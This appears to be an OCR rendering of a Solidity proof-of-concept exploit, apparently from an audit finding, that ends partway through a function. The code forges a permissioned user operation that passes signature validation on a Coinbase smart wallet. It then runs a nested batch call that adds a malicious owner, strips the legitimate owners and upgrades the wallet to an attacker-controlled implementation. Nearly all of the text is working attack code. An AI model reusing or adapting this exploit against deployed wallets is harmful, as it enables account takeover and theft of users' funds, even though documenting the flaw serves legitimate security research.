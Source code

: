 ```solidity
        permissionedUserOp.userOp = userOp;
        permissionedUserOp.permission = permission;

        permissionedUserOp.userOpSignature = _getSignature(userOpHash, permmissionSignerPk);
        permissionedUserOp.userOpCosignature = _getSignature(userOpHash, cosignerPk);

        // malicious permissioned `userOp` passes `isValidSignature()` check
        bytes4 magicValue = permissionManager.isValidSignature(userOpHash, abi.encode(permissionedUserOp));
        assertEq(magicValue, bytes4(0x1626ba7e));

        // malicious permissioned `userOp` passes `validateUserOp()` check
        vm.prank(entrypoint);
        victimWallet.validateUserOp(userOp, userOpHash, 0);

        // execute `userOp` which hijacks the first CB smart wallet by leveraging its other owner
        UserOperation[] memory ops = new UserOperation[](1);
        ops[0] = userOp;
        bytes memory handleOpsCall = abi.encodeWithSelector(0x1fad948c, ops, payable(address(0xc0ffee)));
        entrypoint.call(handleOpsCall);
    }

function _createUserOpNestedExecuteBatch(PermissionManager.Permission memory permission, address paymaster, address payable victimWallet, address pivotWallet, address maliciousOwner) internal returns (UserOperation memory) {
        UserOperation memory userOp;

        userOp.sender = victimWallet;
        // dummy placeholders
        userOp.nonce = 0;
        userOp.callGasLimit = callGasLimit;
        userOp.verificationGasLimit = verificationGasLimit;
        userOp.preVerificationGas = preVerificationGas;
        userOp.maxFeePerGas = maxFeePerGas;
        userOp.maxPriorityFeePerGas = maxPriorityFeePerGas;

        CoinbaseSmartWallet.Call[] memory calls = new CoinbaseSmartWallet.Call[](2);
        bytes memory beforeCallsData = abi.encodeWithSelector(PermissionManager.beforeCalls.selector, permission, paymaster, cosigner);
        calls[0] = CoinbaseSmartWallet.Call(address(permissionManager), 0, beforeCallsData);

        // populate `calls` with a nested ExecuteBatch call to the second smart wallet owner which "reenters" the first smart wallet with malicious owner changes and an upgrade
        CoinbaseSmartWallet.Call[] memory nestedCalls = new CoinbaseSmartWallet.Call[](4);
        bytes memory maliciousAddOwnerCall = abi.encodeWithSelector(MultiOwnable.addOwnerAddress.selector, maliciousOwner);
        nestedCalls[0] = CoinbaseSmartWallet.Call(victimWallet, 0, maliciousAddOwnerCall);
        bytes memory ownerAtIndex0 = CoinbaseSmartWallet(victimWallet).ownerAtIndex(0);
        bytes memory maliciousRemoveOwnerCall0 = abi.encodeWithSelector(MultiOwnable.removeOwnerAtIndex.selector, 0, ownerAtIndex0);
        nestedCalls[1] = CoinbaseSmartWallet.Call(victimWallet, 0, maliciousRemoveOwnerCall0);
        bytes memory maliciousUpgradeCall = abi.encodeWithSelector(UUPSUpgradeable.upgradeToAndCall.selector, maliciousOwner, '');
        nestedCalls[2] = CoinbaseSmartWallet.Call(victimWallet, 0, maliciousUpgradeCall);
        bytes memory ownerAtIndex1 = CoinbaseSmartWallet(victimWallet).ownerAtIndex(1);
        bytes memory maliciousRemoveOwnerCall1 = abi.encodeWithSelector(MultiOwnable.removeOwnerAtIndex.selector, 1, ownerAtIndex1);
        nestedCalls[3] = CoinbaseSmartWallet.Call(victimWallet, 0, maliciousRemoveOwnerCall1);

        bytes memory nestedExecuteBatchData = abi.encodeWithSelector(CoinbaseSmartWallet.executeBatch.selector, nestedCalls);

```